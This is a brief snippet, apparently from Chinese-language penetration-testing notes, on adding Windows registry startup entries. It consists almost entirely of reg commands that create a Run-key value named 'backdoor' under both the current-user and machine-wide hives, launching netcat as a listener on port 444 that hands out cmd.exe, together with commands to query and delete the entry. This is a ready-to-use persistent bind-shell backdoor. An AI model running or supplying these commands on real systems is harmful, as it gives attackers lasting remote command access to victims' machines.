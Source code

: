 ```batch
reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /f
reg query HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor
reg delete HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /f
```

### 修改系统的注册表启动项

```batch
reg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /t REG_SZ /d "c:\windows\system32\nc.exe -Ldp 444 -e cmd.exe" /f
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor
reg delete HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v backdoor /f
```
